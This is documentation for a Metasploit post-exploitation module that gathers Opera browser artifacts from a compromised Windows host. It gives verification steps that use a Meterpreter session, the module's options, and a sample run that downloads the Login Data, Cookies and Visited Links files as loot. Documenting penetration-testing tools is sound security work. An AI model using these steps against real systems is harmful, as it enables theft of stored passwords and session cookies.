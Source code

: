 ## Module Description

This post-exploitation module gathers artifacts found on Opera related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/opera
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/credentials/opera) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Opera's parent folder found
[*] Opera's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Login Data
[*] Opera Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513121928_default_192.168.56.106_operaLoginData_680711.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121928_default_192.168.56.106_EXTRACTIONSLogin_648131.bin
[*] Opera's parent folder found
[*] Opera's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Cookies
[*] Opera Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaCookies_000286.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121929_default_192.168.56.106_EXTRACTIONSCooki_563880.bin
[*] Opera's parent folder found
[*] Opera's Visited links file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Visited Links
[*] Opera Visited links downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaVisitedLin_749388.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
